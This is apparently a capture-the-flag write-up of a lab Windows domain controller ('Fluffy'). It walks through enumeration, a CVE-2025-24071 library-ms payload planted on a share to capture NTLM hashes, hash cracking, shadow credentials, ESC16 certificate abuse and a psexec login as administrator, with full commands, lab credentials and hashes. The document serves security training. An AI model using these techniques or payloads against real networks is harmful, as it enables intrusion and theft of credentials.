


>[!Note]
>As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: `j.fleischman / J0elTHEM4n1990!`

## Enumeration
- As usual, I started by scanning the open ports to get an initial view of the exposed services.

```shell
sudo nmap -Pn -p- $IP -oN fluffy_ports -v
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 22:14 +00
Nmap scan report for 10.129.232.88 (10.129.232.88)
Host is up (0.057s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49697/tcp open  unknown
49710/tcp open  unknown
49723/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 158.25 seconds
```

- Basically, the below shell command retrieves the open ports from the previous nmap scan and puts them on the same line separated by commas, so I can easily copy-paste them into the second nmap scan where I run the default NSE scripts and perform service enumeration.

```shell
grep -oP '^\d+/tcp' fluffy_ports | cut -d/ -f1 | paste -sd, -
#53,88,139,389,445,464,593,636,3268,3269,5985,9389,49667,49689,49690,49697,49710,49723
```

```shell
sudo nmap -Pn -p 53,88,139,389,445,464,593,636,3268,3269,5985,9389,49667,49689,49690,49697,49710,49723 -A $IP -oN fluffy_services -v
```

```
Nmap scan report for 10.129.232.88 (10.129.232.88)
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-23 05:49:15Z)
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-02-23T05:50:51+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
|_ssl-date: 2026-02-23T05:50:52+00:00; +7h00m00s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
|_ssl-date: 2026-02-23T05:50:51+00:00; +7h00m00s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
|_ssl-date: 2026-02-23T05:50:52+00:00; +7h00m00s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-02-23T05:50:14
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   102.83 ms 10.10.16.1 (10.10.16.1)
2   151.95 ms 10.129.232.88 (10.129.232.88)
```
## SMB/LDAP enumeration
- As usual, I started by testing `Null authentication`. However, although it is enabled, I was unable to enumerate shares, users, or proceed with an `RID brute-force` because we lack the necessary rights.

```shell
nxc smb $IP -u '' -p '' --shares
nxc smb $IP -u '' -p '' --rid
```

--> `Anonymous login` is enabled but we lack the rights to enumerate `shares` or bruteforce `rid`.


- I used the provided credentials : 


- The user `j.fleischman` has `read/write` access on the share `IT`. The other shares are the default ones. 

- I used `smbclient` to access the `IT` share : 

```shell
smbclient //$IP/IT -U 'fluffy.htb/j.fleischman'%'J0elTHEM4n1990!'
```

- From there, we retrieved a `.pdf` containing a list of CVEs impacting the enterprise assets which require patching and 2 zip files.


- I also enumerated users through `ldap`. I may need them (who knows). I prefer using `ldap` because I can retrieve also the `description` which can reveal additional information : 

```shell
nxc ldap $IP -u 'j.fleischman' -p 'J0elTHEM4n1990!' --users
```


## Bloodhound
```shell
sudo timedatectl set-ntp 0
sudo rdate $IP
 
sudo bloodhound-python -u 'j.fleischman' -p 'J0elTHEM4n1990!' -ns 10.129.232.88 -d fluffy.htb -c all --zip
```

- After ingesting the data into `BloodHound`, there was no clear attack path. However, I noticed that `winrm_svc` is a member of the `Remote Management Users` group. So my focus shifted to this user. **Why?** Because the WinRM port is open, and it could potentially be leveraged for the initial access.

- Back to the `SMB`, it is not very common to have `write` access on a share, in addition to that, `CVE-2025-24071` looks promising. **It is the same CVE that gave an initial access in another Box hihi (I can't disclose the name since it is still active)**.

>[!Note]
>`CVE-2025-24071` describes a vulnerability that arises from the implicit trust and automatic file parsing behavior of `.library-ms` files in Windows Explorer. An unauthenticated attacker can exploit this vulnerability by constructing RAR/ZIP files containing a malicious SMB path. Upon decompression, this triggers an SMB authentication request, potentially exposing the user's NTLM hash.

- The `IT` share looks like a centralized share used by the `IT` team where they can put files and softwares that may be necessary for their tasks and make them available to everyone, so I created the `.library-ms` file and zip it and put it in the `IT share` waiting for someone to retrieve it and get the `ntlmv2 respone` :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.16.51\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

```shell
zip exploit.zip exploit.library-ms
```

- Inside the `IT share`, we will upload it using : 

```
put exploit.zip
```


- Our responder displayed the hash : 


- Let's crack it :

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


- Credentials found : `p.agila/prometheusx-303`

- As mentioned earlier, I will focus on the `winrm_svc` and since we got new set of credentials, I will look at the `outbound control` of the user `p.agila`. She is a member of the group `Service Account managers.` Members of the latter group have `GenericAll` on the group `Service Accounts` and this group has `GenericWrite` on our target `winrm_svc`. So the attack will start by adding `P.Agila` to the `Service account` group and then we will either attempt a targeted kerberoasting or shadow credentials to obtain the hash of the user `winrm_svc`.


- We will use `bloodyAD` to add the user `P.Agila` to the `Service account` group :

```shell
bloodyAD --host $IP -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" add groupMember "Service Accounts" "p.agila"
```

- We will check if the user was indeed added (Sometimes the cleaning scripts run just after executing our commands):

```shell
net rpc group members "Service Accounts" -U "FLUFFY.HTB"/"p.agila"%'prometheusx-303' -S 'DC01.fluffy.htb'
```

- After successfully adding the user `p.agila` to the group, we will launch a targeted kerberoast attack on `winrm_svc` : 

```shell
python3 targetedKerberoast.py -v -d 'fluffy.htb' -u 'p.agila' -p 'prometheusx-303' --request-user 'winrm_svc'
```


- Unfortunately, we couldn't manage to crack the hash : 


>[!Note]
>Wait a minute ... !! After some thinking, I realized that the previous step was a bit dumb on my part. The `winrm_svc` account is already a **service account**, meaning it already has an `SPN`. So even without `GenericWrite`, I can request a `TGS` and attempt to crack it. Meh… silly me!!!! 😅

```shell
impacket-GetUserSPNs -dc-ip $IP fluffy.htb/p.agila -request-user "winrm_svc"
```


## Shadow Credentials
###### Shadow credentials overview :
- Since we have `GenericWrite` on the user object, we are allowed to modify the attribute **`msDS-KeyCredentialLink`**. What is this attribute ?
- `msDS-KeyCredentialLink` stores `public keys` (or certificates) used for **Kerberos authentication via PKINIT**.  `PKINIT` allows a security principal (user or computer) to authenticate to the KDC using `asymmetric crypto` instead of a password or NT hash.
- Here is the flow :
1. The client generates a private key and a matching public key.
2. The `public key` is stored in the user’s `msDS-KeyCredentialLink` attribute.
3. During Kerberos authentication (AS-REQ), the user proves ownership of the `private key` by signing part of the request.
4. The KDC verifies the signature using the `public key` stored in `msDS-KeyCredentialLink`.
5. If the signature is valid → the KDC trusts the identity → issues a TGT.

>[!Note]
>**Why is it dangerous ?**
>- If an attacker can **modify** `msDS-KeyCredentialLink`, they can:
>- Insert **their own public key** into the victim's account.
>- Authenticate as that user using the corresponding **private key**, without knowing the password.
>- The KDC will accept the authentication because the signature matches the public key the attacker injected.
>- This means the attacker can obtain a **valid TGT** as the victim. The attacker can fully **impersonate** the account. The attack is **silent** and usually not logged.

```shell
sudo timedatectl set-ntp 0
sudo rdate $IP

certipy shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -account winrm_svc
```

- I ran into multiple weird errors when trying to use `certipy` or `certipy-ad` such as : 
`Got error: createSelfSignedX509Certificate() got an unexpected keyword argument 'nBefore'`.

- The fix was to uninstall `certipy-ad` that was already there in `Kali` via `apt` and re-install it with `pipx install certipy-ad`


- Credentials found : `winrm_svc and NT hash:33bd09dcd697600edf6b3a7af4875767`
## Shell as winrm_svc
- We will use `evil-winrm` to log in as `winrm_svc` and get the user flag : 

```shell
evil-winrm -i $IP -u 'winrm_svc' -H "33bd09dcd697600edf6b3a7af4875767"
```

- **Flag : {4ac28d34d09c2bbae2aeb27888186ca9}**
## Shell as administrator
- After gaining access as `winrm_svc`, I reran `SharpHound` and uploaded the resulting `.zip` file to my machine. For the transfer, I used `nc.exe`, and I compared the hash values of the ZIP file on both machines to ensure the transfer was successful.

```shell
nc -lvnp 4444 > 20251204104431_fluffyHTB.zip #On my Kali

.\SharpHound.exe -c All --zipfilename fluffyHTB #On the box

cmd /c ".\nc.exe 10.10.16.81 4444 < 20251204104431_fluffyHTB.zip"

Get-FileHash .\20251204104431_fluffyHTB.zip -Algorithm SHA256
#0C356CED03FF82E5DD025E484701092C8ECD05100C09BDF5D5BB998D20F66BE0 on the box

sha256sum 20251204104431_fluffyHTB.zip
#0c356ced03ff82e5dd025e484701092c8ecd05100c09bdf5d5bb998d20f66be0 on my kali
```

- From the `nmap` output earlier and also `BloodHound`, we know that there is a `CA` in place:


- Since we are dealing with `CA` in this box, the first thought is to enumerate vulnerable templates :

```shell
certipy find -dc-ip $IP -u winrm_svc -hashes 33bd09dcd697600edf6b3a7af4875767 -vulnerable -stdout
```


- Unfortunately, I didn't get any useful information from this output, so I checked the members of `Cert Publishers`.


- The user `ca_svc` is part of `The Cert Publishers` group and it is also part of the `Service accounts` group, meaning we can retrieve its hash the same way we did with `winrm_svc` using `shadow credentials`.
- Also, it is worth noting that The group `service accounts` has `GenericWrite` on its members which means any member can use `shadow credentials` on other members.

```shell
certipy shadow auto -u winrm_svc@fluffy.htb -hashes 33bd09dcd697600edf6b3a7af4875767 -account ca_svc
```


- New set of credentials : `ca_svc / ca0f4f9e9eb8a092addf53bb03fc98c8`

- We will rerun the command with `ca_svc` account :

```shell
certipy find -dc-ip $IP -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -vulnerable -stdout
```



>[!Note]
>Running `certipy` with `ca_svc` produced different results and showed `ESC16` because `ca_svc` is a member of `Cert Publishers`, and that group has `Enroll` rights on the Certification Authority. Certipy evaluates AD CS vulnerabilities from the perspective of the current security principal, meaning it only flags misconfigurations that are actually exploitable based on that account’s effective permissions over the CA or certificate templates. Since `ca_svc` can enroll on the CA and the Security Extension is disabled, ESC16 becomes potentially exploitable and is therefore reported. In contrast, an account without Enroll rights such as `winrm_svc` will not see ESC16 flagged, even though the misconfiguration exists, because it cannot actually request a certificate from the CA and therefore cannot abuse the condition.

- `Certipy wiki` has all the necessary steps to abuse `ESC16` :

1. Read initial UPN of the victim account which is `ca_svc` (for restoration)

```shell
certipy account \   
    -u winrm_svc -hashes 33bd09dcd697600edf6b3a7af4875767 \
    -dc-ip $IP -user 'ca_svc' \      
    read
```


2. Update the victim account's UPN to the target administrator's `sAMAccountName` :

```shell
certipy account \ 
    -u winrm_svc -hashes 33bd09dcd697600edf6b3a7af4875767 \
    -dc-ip $IP -upn 'administrator' \
    -user 'ca_svc' update
```


3. Request a certificate as the "victim" user from _any suitable client authentication template_ (e.g., "User") on the ESC16-vulnerable CA :

```shell
impacket-getTGT -dc-ip $IP fluffy.htb/ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8

certipy req \                                                                                       
    -k -dc-host $IP \
    -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' \
    -template 'User'
```


4. Revert the "victim" account's UPN.

```shell
certipy account \
    -u winrm_svc -hashes 33bd09dcd697600edf6b3a7af4875767 \
    -dc-ip $IP -upn 'ca_svc@fluffy.htb' \
    -user 'ca_svc' update
```


5. Authenticate as the target administrator.

```shell
certipy auth \
    -dc-ip $IP -pfx 'administrator.pfx' \
    -username 'administrator' -domain 'fluffy.htb'
```


- Now that we have the `administrator` hash, we can login via `psexec` :

```shell
impacket-psexec -hashes :8da83a3fa618b6e3a00e93f676c92a6e administrator@fluffy.htb
```


- Flag : **{{0f8c760c3d9c6db63d9104b241ba860c}}**


## Resources
- https://www.hackingarticles.in/shadow-credentials-attack/
- https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation
- https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#cert-publishers